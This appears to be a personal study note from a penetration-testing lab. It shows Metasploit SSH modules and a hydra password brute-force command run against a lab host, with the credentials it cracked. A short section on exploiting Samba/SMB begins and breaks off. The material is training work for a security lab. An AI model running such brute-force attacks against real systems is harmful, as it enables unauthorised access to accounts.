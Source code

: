 
-- Lab -- 

- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login 

22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0) 

root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.9.96.3 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.


[DATA] max 4 tasks per 1 server, overall 4 tasks, 350 login tries (l:7/p:50), ~88 tries per task
[DATA] attacking ssh://192.9.96.3:22/
[22][ssh] host: 192.9.96.3   login: sysadmin   password: hailey
[STATUS] 74.00 tries/min, 74 tries in 00:01h, 276 to do in 00:04h, 4 active
[22][ssh] host: 192.9.96.3   login: rooty   password: pineapple
[22][ssh] host: 192.9.96.3   login: demo   password: butterfly1
[22][ssh] host: 192.9.96.3   login: auditor   password: xbox360
[STATUS] 69.33 tries/min, 208 tries in 00:03h, 142 to do in 00:03h, 4 active
[STATUS] 60.75 tries/min, 243 tries in 00:04h, 107 to do in 00:02h, 4 active
[22][ssh] host: 192.9.96.3   login: anon   password: 741852963
[STATUS] 54.80 tries/min, 274 tries in 00:05h, 76 to do in 00:02h, 4 active

[STATUS] 49.00 tries/min, 294 tries in 00:06h, 56 to do in 00:02h, 4 active
[22][ssh] host: 192.9.96.3   login: administrator   password: password1
[STATUS] 46.86 tries/min, 328 tries in 00:07h, 22 to do in 00:01h, 4 active
[22][ssh] host: 192.9.96.3   login: diag   password: secret

![[Pasted image 20230717141806.png]]


- Use **/usr/share/metasploit-framework/data/wordlists/common_users.txt** username dictionary
- Use **/usr/share/metasploit-framework/data/wordlists/common_passwords.txt** password dictionary

![[Pasted image 20230717145859.png]]

metasploit zet meteen een ssh session op, 





## Exploiting SAMBA 

SMB (Server Message Block):

- SMB is a network file sharing protocol used for sharing files and peripherals between computers on a local network (LAN).
- The default port for SMB is 445 (TCP). However, it originally ran on top of NetBIOS using port 139.
- Samba is the Linux implementation of SMB, enabling Windows systems to access Linux shares and devices. Not prepacked 

Exploiting SAMBA:

